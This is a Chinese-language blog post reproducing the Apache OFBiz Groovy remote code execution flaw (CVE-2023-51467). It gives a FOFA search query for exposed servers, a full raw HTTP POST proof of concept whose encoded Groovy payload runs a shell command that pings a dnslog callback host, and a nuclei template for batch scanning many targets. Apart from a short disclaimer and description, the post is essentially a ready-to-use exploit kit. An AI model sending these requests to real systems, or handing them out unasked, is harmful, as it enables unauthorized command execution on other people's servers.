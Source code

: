 # 原创
：  漏洞复现--Apache OFBiz groovy RCE（CVE-2023-51467）

# 漏洞复现--Apache OFBiz groovy RCE（CVE-2023-51467）

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

Apache OFBiz（Apache Open For Business）是一个开源的企业资源规划（ERP）系统和企业应用开发框架。它由Apache软件基金会开发和维护，提供了一套完整的工具和组件，用于构建和定制企业级应用。

### 二：漏洞影响版本

Apache OFBiz

### 三：网络空间测绘查询

fofa<br/> `app="Apache_OFBiz"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fcd36b14c42f9e79539c027d0042c9c2.jpeg"/>

### 四：漏洞复现

poc:

```
POST /webtools/control/ProgramExport?USERNAME=&amp;PASSWORD=&amp;requirePasswordChange=Y HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 175

groovyProgram=import+groovy.lang.GroovyShell%0D%0A%0D%0AGroovyShell+shell+%3D+new+GroovyShell%28%29%3B%0D%0Ashell.evaluate%28%27%22ping+f402ki.dnslog.cn%22.execute%28%29%27%29

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/5788e54a366b8b3a2ec5924c6201e9f6.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d31a817ccc2ca1188e454a08adaf81b4.jpeg"/>

### 批量检测

```
id: Apache OFBiz groovy  RCE

info:
  name: Apache OFBiz groovy  RCE
  author: 芝士土拨鼠
  severity: high
  description: Apache OFBiz（Apache Open For Business）是一个开源的企业资源规划（ERP）系统和企业应用开发框架。它由Apache软件基金会开发和维护，提供了一套完整的工具和组件，用于构建和定制企业级应用。

requests:
  - raw:
      - |-
        POST /webtools/control/ProgramExport?USERNAME=&amp;PASSWORD=&amp;requirePasswordChange=Y HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Sec-Fetch-Dest: document
        Sec-Fetch-Mode: navigate
        Sec-Fetch-Site: none
        Sec-Fetch-User: ?1
        Te: trailers
        Connection: close
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 175

        groovyProgram=import+groovy.lang.GroovyShell%0D%0A%0D%0AGroovyShell+shell+%3D+new+GroovyShell%28%29%3B%0D%0Ashell.evaluate%28%27%22ping+{{interactsh-url}}%22.execute%28%29%27%29

    matchers:
      - type: word
        part: interactsh_protocol 
        words:
          - "dns"

```
